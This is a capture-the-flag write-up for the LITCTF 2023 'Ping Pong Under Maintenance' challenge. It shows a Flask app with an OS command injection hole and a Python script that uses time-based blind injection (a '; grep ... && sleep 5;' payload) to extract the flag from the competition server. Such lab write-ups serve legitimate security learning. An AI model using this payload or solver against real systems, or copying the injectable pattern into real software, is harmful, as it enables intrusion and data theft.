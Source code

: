 ```yaml
---
title: 2023 LITCTF - Ping Pong Under Maintenance
date: 2023-08-08 00:00:00 +0700
categories:
  - Write-ups
tags:
  - 2023_LITCTF
  - Web Exploitation
  - OS command injection
---
```


## Overview

* 90 solves / 158 points
* Author: eyangch

## Description

> The website seems to be under maintenance.

### Attached

[ping-pong-under-maintenance](https://github.com/encuetee/CTF-writeups/blob/main/2023/2023_LITCTF/attached/ping-pong-under-maintenance.zip)

This is ```pingpong.py``` file

```py
from flask import Flask, render_template, redirect, request
import os

app = Flask(__name__)

@app.route('/', methods = ['GET','POST'])
def index():
    output = None
    if request.method == 'POST':
        hostname = request.form['hostname']
        cmd = "ping -c 3 " + hostname
        output = os.popen(cmd).read()

    return render_template('index.html', output='The service is currently under maintainence and we have disabled outbound connections as a result.')

```

## Analyzation

In this challenge, we cannot see the output anymore. So we use time-based blind injection.

Use command
```sh
grep "LIT" flag.txt && sleep 5;
```

- If the command ```grep "LIT" flag.txt``` finds the string ```"LIT"``` in ```flag.txt```, then the second command, ```sleep 5```, will be executed. This causes a delay before the response is returned.

## Solution

```py
import requests, string, time

ALPHABET = "}_" + string.ascii_lowercase + string.digits + string.ascii_uppercase
URL_PINGPONGUnderMaintenance = 'http://34.130.180.82:53558/' # change this link

HEADERS={
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:109.0) Gecko/20100101 Firefox/116.0',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8',
    'Accept-Language': 'en-US,en;q=0.5'
}

flag = "LITCTF{"
TEMPLATE_PAYLOAD = '; grep "{}" flag.txt && sleep 5;'

while flag[-1] != '}':
    for character in ALPHABET:
        print("char: %s" % character) # log the process.
        flag_tmp = flag + str(character)

        START_TIME = time.time()
        respond = requests.post(URL_PINGPONGUnderMaintenance, headers=HEADERS, data={'hostname': TEMPLATE_PAYLOAD.format(flag_tmp)})

        if time.time() - START_TIME > 5:
            flag = flag_tmp
            print("true: {}".format(flag)) # log the process.
            break

print(flag)
```

The flag is
```
LITCTF{c4refu1_fr}
```